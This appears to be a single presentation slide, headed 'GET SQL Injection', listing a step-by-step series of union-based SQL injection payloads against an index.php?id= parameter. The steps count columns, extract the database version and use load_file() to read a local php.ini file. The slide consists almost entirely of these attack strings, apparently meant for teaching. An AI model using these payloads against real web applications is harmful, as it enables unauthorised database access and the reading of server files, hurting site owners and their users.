

# GET SQL Injection
index.php?id=1 order by 1
index.php?id=1 union select 1,2,3
index.php?id=1 and 0 union select 1,2,3
index.php?id=1 and 0 union select 1,version(),3
index.php?id=1 and 0 union select 1,load_file("D://laragon/bin/php/php-8.2.1-nts-Win32-vs16-x64/php.ini"),3